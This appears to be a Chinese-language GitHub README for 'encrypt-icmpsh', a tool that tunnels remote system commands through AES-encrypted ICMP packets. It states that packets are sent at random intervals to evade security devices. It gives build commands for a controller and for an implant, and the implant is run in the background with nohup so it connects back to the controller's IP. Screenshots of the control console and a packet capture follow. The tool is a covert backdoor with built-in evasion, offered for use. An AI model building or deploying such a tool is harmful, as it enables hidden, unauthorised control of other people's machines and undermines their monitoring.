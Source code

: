 # encrypt-icmpsh
一个ICMP加密通信隧道，用来执行系统命令，采用aes加密，每个icmp包为64字节长度以随机时间发送，躲过安全设备监测。


使用方法：
控制机：
gcc -g icmpsendcmd.c icmp1send.c aes.c -o icmpsend

./icmpsend  被控制机ip


被控机：
gcc -g testicmpback.c aes.c icmp1back.c -o icmpback

nohup ./icmpback 控制机ip & (进入后台运行)


效果：
控制端：
![image](https://user-images.githubusercontent.com/53997549/174488396-94e305bd-4abf-4e68-a3c0-7b2a98dcee74.png)

抓包效果：

![image](https://user-images.githubusercontent.com/53997549/174488497-0e5c46d2-ba00-43fd-893a-15f809070d6f.png)
